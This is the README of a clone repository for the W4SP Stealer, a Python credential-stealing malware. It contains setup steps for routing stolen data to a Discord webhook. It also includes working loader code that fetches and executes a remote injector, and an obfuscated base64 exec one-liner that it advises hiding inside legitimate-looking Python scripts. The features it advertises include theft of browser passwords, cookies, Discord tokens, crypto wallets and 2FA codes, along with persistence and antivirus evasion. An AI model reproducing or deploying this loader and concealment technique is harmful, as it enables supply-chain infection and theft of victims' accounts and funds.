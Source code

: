 # 🐝 W4SP Stealer 🐝
⚠️ Official Repo (loTus04/WS4P-Stealer) got termed, this is a clone repo ⚠️ <br><br>
w4sp Stealer official source code, one of the best python stealer on the web<br>
W4SP Stealer | W4SP API | W4SP Bot

<a href="https://twitter.com/TheHackersNews/status/1588812607234117632"><img src="https://media.discordapp.net/attachments/526622602542710814/1039914372136448031/unknown.png"></img></a>
<br>Stealer by [@loTus04](https://github.com/loTus04) and API & Bot by [@billythegoat356](https://github.com/billythegoat356)<br>
(for education purpose only)<br>



## 🚩 Table of Content

- Setup - Stealer
- Setup - API & Bot
- Features - Stealer
- Features - Injector
- Features - Api
- Features - Bot
- Demo

## Setup [Stealer & Injector]
```sh
1. Put ur webhook in wasp.py: hook = "DISCORD_WEBHOOK"
2. Obfuscate & Upload anywhere (needs to be accessible with an http request)
3. Put wasp.py link in injector.py: request.urlopen("W4SPGRAB").read()
4. Obfuscate it
```
## Setup [Line ~ Optional but recomanded]
```py
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("INJECTOR_LINK").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass

# replace INJECTOR_LINK by the injector.py link from setup
# (this script was made by Bill)
```
```py
# encode in b64 the last payload and replace it here
# then hide this line in a legit looking python script
# or use ur brain and ur own technique, this is just un exemple
# remeber, its for education purpose, attacking a machine w/o autorisation is illegal !

__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').exec(__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').compile(__import__('\x62\x61\x73\x65\x36\x34').b64decode("%PAYLOAD%"),'<string>','\x65\x78\x65\x63'))
```

## Setup [API]
[![](https://markdown-videos.deta.dev/youtube/th3cA691zJ4)](https://youtu.be/th3cA691zJ4)



## Features [Stealer]
(Stealer by [@loTus04](https://github.com/loTus04))

Global
- Saved Passwords
- Browser Cookies
- Get PC information
- AntiVM - Trust Factor system, it wont send data if Gmail cookies arent' found
- All files are uploaded to an external api <- Improved by [xKian](https://github.com/sfx2me)
- Data is send throught a Discord webhook

Discord
- Discord Tokens from browsers
- Discord Token from discord, discordcanary, discordPTBa
- Get all info on token (email, nitro/badge, rare friends)

Wallets
- Exodus Wallet
- Metamask Wallet
- Atomic Walletk

Gaming
- Steam Client
- Riot Client
- NationsGlory Client

Other
- Telegram Session

File Stealer
- It will search throught the pc for: saved passwords, 2fa codes, wallet keys and other sensitive information<br>
(idea came from Kiwi plugin on msf)

## Features [Injector]
(Injector by [@loTus04](https://github.com/loTus04))
- Brilliant persistance technique (only in injector v1.1)
- Invisible in TaskManger StartUP tab (only in injector v1.1)
- FUD
- Fully runs in background
- Hides the stealer very well

Credit to [xKian](https://github.com/sfx2me) who improved the injector (v1.2)

## Features [API]
(Api by [@billythegoat356](https://github.com/billythegoat356))
- Easy to update/upgrade
- Compatible with all w4sp versions
- Using auto & custom obfuscation
- Manage Users and Webhooks with API
- Browser security => If a browser is detected (headers) it will obfusacate a fake wasp script <- Brilliant Idea by [lath](https://github.com/lathlaszlo)

## Features [BOT]
(Bot by [@billythegoat356](https://github.com/billythegoat356))
- Easy to configure
- Manage Users and Webhooks using w4sp api
- Auto inject file.py

# Few articles on W4SP (they where writen during beta-testing)<br> ⚠️Most articles writen after that are 95% bullshit⚠️
- [securelist.com ~ Two more malicious Python packages in the PyPI
](https://securelist.com/two-more-malicious-python-packages-in-the-pypi/107218/)
- [securityweek.com ~ Security Firms Find Over 20 Malicious PyPI Packages Designed for Data Theft](https://www.securityweek.com/security-firms-find-over-20-malicious-pypi-packages-designed-data-theft)
- [digismak.com ~ Criminals steal data by spoofing popular open source package](https://digismak.com/criminals-steal-data-by-spoofing-popular-open-source-package/)
- [darkreading.com ~ Whack-a-Mole: More Malicious PyPI Packages Spring Up Targeting Discord, Roblox](https://www.darkreading.com/application-security/whack-a-mole-malicious-pypi-packages-target-discord-roblox)

# ScreenShots
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035590779919421460/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591128193433661/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591544100634735/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591894098513960/unknown.png"></img>
